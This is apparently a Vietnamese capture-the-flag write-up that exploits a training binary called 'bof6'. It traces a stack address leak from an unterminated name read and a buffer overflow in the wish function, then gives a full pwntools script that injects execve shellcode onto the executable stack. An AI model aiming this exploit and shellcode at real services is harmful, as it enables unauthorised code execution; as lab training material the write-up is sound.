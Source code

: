 **1. Tìm lỗi**

Chạy thử file ta được:

![run.png](photo/run.png)

Dùng lệnh 'file' kiểm tra:

```
bof6: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=7e00adff17cb6bf5c2209e816c46f93efe45c3e1, for GNU/Linux 3.2.0, not stripped
```

---> Mở bằng IDA64 ta được

```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [rsp+8h] [rbp-8h] BYREF
  int v5; // [rsp+Ch] [rbp-4h]

  v5 = 0;
  init(argc, argv, envp);
  while ( !v5 )
  {
    puts("Welcome to christmas gifting system");
    puts("1. Enter your name");
    puts("2. Send a wish");
    puts("3. Exit");
    printf("> ");
    __isoc99_scanf("%d", &v4);
    if ( v4 == 1 )
    {
      get_name();
    }
    else if ( v4 == 2 )
    {
      get_wish();
    }
    else
    {
      v5 = 1;
    }
  }
  return 0;
}
```

Hàm get_name:

```
int get_name()
{
  char buf[80]; // [rsp+0h] [rbp-50h] BYREF

  puts("What's your name?");
  printf("> ");
  read(0, buf, 0x50uLL);
  printf("Hello %sI have a message from santa:\n", buf);
  puts("----------------------------------------------------------");
  puts(
    "| Due to your good behavior, I will give you a wish.     |\n"
    "| You can wish for anything you want and I will give you |\n"
    "| that as a gift for being a good boy!                   |");
  return puts("----------------------------------------------------------");
}
```

Hàm sử dụng hàm puts() để in ra câu hỏi "What's your name?", và sử dụng hàm printf() để yêu cầu người dùng nhập tên của họ. Hàm read() được gọi đến, đọc tối đa 0x50 (80) byte thông tin người dùng nhập vào từ stdin và lưu trữ vào mảng ký tự buf. Nếu như mình nhập hết 80 byte ở đây thì có thể leak được địa chỉ stack.

Hàm get_wish:

```
ssize_t get_wish()
{
  char buf[512]; // [rsp+0h] [rbp-200h] BYREF

  puts("What do you want for christmas?");
  printf("> ");
  return read(0, buf, 0x220uLL);
}
```

Hàm khai báo một mảng ký tự buf có kích thước 512 byte.

Sau đó, hàm sử dụng hàm puts() để in ra câu hỏi "What do you want for christmas?", và sử dụng hàm printf() để yêu cầu người dùng nhập món quà mà họ muốn nhận. Hàm read() được gọi đến, đọc tối đa 0x220 (544) byte thông tin người dùng nhập vào từ stdin và lưu trữ vào mảng ký tự buf nhưng biến buf được khai báo 512 byte -> có lỗi bof

```
pwndbg> vmmap
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
             Start                End Perm     Size Offset File
          0x400000           0x401000 r--p     1000      0 /mnt/d/CTF_Writeup/Train/shellcode2/bof6
          0x401000           0x402000 r-xp     1000   1000 /mnt/d/CTF_Writeup/Train/shellcode2/bof6
          0x402000           0x403000 r--p     1000   2000 /mnt/d/CTF_Writeup/Train/shellcode2/bof6
          0x403000           0x404000 r--p     1000   2000 /mnt/d/CTF_Writeup/Train/shellcode2/bof6
          0x404000           0x405000 rw-p     1000   3000 /mnt/d/CTF_Writeup/Train/shellcode2/bof6
    0x7ffff7d8a000     0x7ffff7d8d000 rw-p     3000      0 [anon_7ffff7d8a]
    0x7ffff7d8d000     0x7ffff7db5000 r--p    28000      0 /usr/lib/x86_64-linux-gnu/libc.so.6
    0x7ffff7db5000     0x7ffff7f4a000 r-xp   195000  28000 /usr/lib/x86_64-linux-gnu/libc.so.6
    0x7ffff7f4a000     0x7ffff7fa2000 r--p    58000 1bd000 /usr/lib/x86_64-linux-gnu/libc.so.6
    0x7ffff7fa2000     0x7ffff7fa6000 r--p     4000 214000 /usr/lib/x86_64-linux-gnu/libc.so.6
    0x7ffff7fa6000     0x7ffff7fa8000 rw-p     2000 218000 /usr/lib/x86_64-linux-gnu/libc.so.6
    0x7ffff7fa8000     0x7ffff7fb5000 rw-p     d000      0 [anon_7ffff7fa8]
    0x7ffff7fbb000     0x7ffff7fbd000 rw-p     2000      0 [anon_7ffff7fbb]
    0x7ffff7fbd000     0x7ffff7fc1000 r--p     4000      0 [vvar]
    0x7ffff7fc1000     0x7ffff7fc3000 r-xp     2000      0 [vdso]
    0x7ffff7fc3000     0x7ffff7fc5000 r--p     2000      0 /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
    0x7ffff7fc5000     0x7ffff7fef000 r-xp    2a000   2000 /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
    0x7ffff7fef000     0x7ffff7ffa000 r--p     b000  2c000 /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
    0x7ffff7ffb000     0x7ffff7ffd000 r--p     2000  37000 /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
    0x7ffff7ffd000     0x7ffff7fff000 rw-p     2000  39000 /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
    0x7ffffffde000     0x7ffffffff000 rwxp    21000      0 [stack]
```

Ta thấy ở stack có thể thực thi được nên sẽ đưa shellcode lên stack

**Ý tưởng**

- Ở chế độ 1 nhập full 0x50 byte để lấy địa chỉ stack
- Ở chế độ 2 đưa shellcode vào

**3. Khai thác**

- Leak địa chỉ stack:

Vào chương trình chọn chế độ 1 rồi nhập full 0x50 byte rác xem có leak được địa chỉ stack không.

![stack.png](photo/stack.png)

Vậy địa chỉ đã được in ra -> có được script đoạn này như sau:

```
r.sendlineafter(b'> ', b'1')
r.sendafter(b'> ', b'a'*0x50)
r.recvuntil(b'a'*0x50)
stack = u64(r.recv(6) + b'\x00\x00')
print('stack: ' + hex(stack))
```

Tiếp theo là sang chế độ 2 ghi shellcode vào stack để thực thi.

```
   0x00000000004012a7 <+44>:    lea    rax,[rbp-0x200]
   0x00000000004012ae <+51>:    mov    edx,0x220
   0x00000000004012b3 <+56>:    mov    rsi,rax
   0x00000000004012b6 <+59>:    mov    edi,0x0
   0x00000000004012bb <+64>:    call   0x4010b0 <read@plt>
```

Ta thấy được lúc nhập tràn từ biến đến ret thì không đủ byte để ghi shellcode nên nhập luôn shellcode vào biến rồi đưa lại địa chỉ biến để thực thi.

```
payload = b"\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"
payload = payload.ljust(0x200 + 0x8)
payload += p64(stack)
input()
r.sendlineafter(b'> ', b'2')
r.sendafter(b'> ', payload)
```

Đặt breakpoint sau lệnh read kiểm tra xem địa chỉ stack leak ra được đến địa chỉ chứa shellcode cách nhau bao nhiêu.

![stack1.png](photo/stack1.png)

Vậy cần lùi về sau stack 0x220 byte. Kiểm tra xem ret đã trả về địa chỉ shellcode của mình chưa.

![stack2.png](photo/stack2.png)

Vậy chương trình đã trả về đúng địa chỉ shellcode cho mình.

Ta có script như sau:

```
from pwn import *

exe = ELF('bof6')
r = process(exe.path)

#1. Leak địa chỉ stack
r.sendlineafter(b'> ', b'1')
r.sendafter(b'> ', b'a'*0x50)
r.recvuntil(b'a'*0x50)
stack = u64(r.recv(6) + b'\x00\x00')
print('stack: ' + hex(stack))

#2. Ghi shellcode
payload = b"\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"
payload = payload.ljust(0x200 + 0x8)
payload += p64(stack - 0x220)
#input()
r.sendlineafter(b'> ', b'2')
r.sendafter(b'> ', payload)
r.interactive()
```

**4. Lấy flag**

![flag.png](photo/flag.png)
